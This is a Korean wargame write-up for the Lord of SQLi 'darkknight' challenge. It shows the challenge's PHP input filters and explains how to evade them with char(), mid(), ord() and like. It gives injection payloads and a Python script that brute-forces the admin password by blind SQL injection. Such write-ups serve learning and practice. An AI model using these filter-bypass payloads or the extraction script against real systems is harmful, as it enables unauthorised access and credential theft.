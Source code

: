 <img width="222" alt="스크린샷 2020-01-18 오후 7 45 53" src="https://user-images.githubusercontent.com/54495632/72662917-ecdcf900-3a2f-11ea-9d5a-c30d58d2425f.png">



12번 다크나이트



<img width="846" alt="스크린샷 2020-01-18 오후 7 46 01" src="https://user-images.githubusercontent.com/54495632/72662965-7987b700-3a30-11ea-990d-45a8feaa4afa.png">



if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 

pw와 no에서 공통적으로 작은 따옴표 ' 가 필터링 된다.
이를 우회하기 위해 " 큰 따옴표, char을 이용했다.

no에서 substr, ascii , = 가 필터링 된다.

substr은 바로 전 문제와 같이 mid 함수를 이용하여 우회할 수 있고
ascii는 같은 기능을 하는 ord 함수로 우회하였다.
=는 바로 전 문제와 같이 like를 이용했다.



<img width="812" alt="스크린샷 2020-01-18 오후 8 54 43" src="https://user-images.githubusercontent.com/54495632/72666087-34747c80-3a52-11ea-9121-763f33a7b76a.png">



length 함수엔 따로 필터링이 없어서
pw='' and no =""or id like char(97,100,109,105,110) and length(pw)like 8 과 같은 쿼리를 생각하여 pw의 길이를 찾았다. pw 길이 = 8
작은따옴표가 필터링되서 id like 'admin' 과 같이 쿼리를 줄 수 없어
'admin' 대신 char함수를 이용했다.



<img width="819" alt="스크린샷 2020-01-19 오전 12 26 21" src="https://user-images.githubusercontent.com/54495632/72666106-5837c280-3a52-11ea-8a50-07b598d28525.png">



다음과 같이 ord , mid , like 를 이용하여 문제를 해결했다.
pw=1&no=""||id like char(97,100,109,105,110) and ord(mid(pw,1,1))like%2048



<img width="279" alt="스크린샷 2020-01-19 오전 12 32 53" src="https://user-images.githubusercontent.com/54495632/72666195-4276cd00-3a53-11ea-891e-67c55b95941c.png">



import requests

cookies={'PHPSESSID':'쿠키값'}
url="https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?"

pw=""
for i in range(1,9):
    for j in range(33,128):
        query="pw=&no=%22%22or%20id%20like%20char%2897%2C100%2C109%2C105%2C110%29%20and%20ord%28mid%28pw%2C"+str(i)+"%2C1%29%29like%20"+str(j)
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("Hello admin")>0):
            pw+=chr(j)
            print (pw)
            break
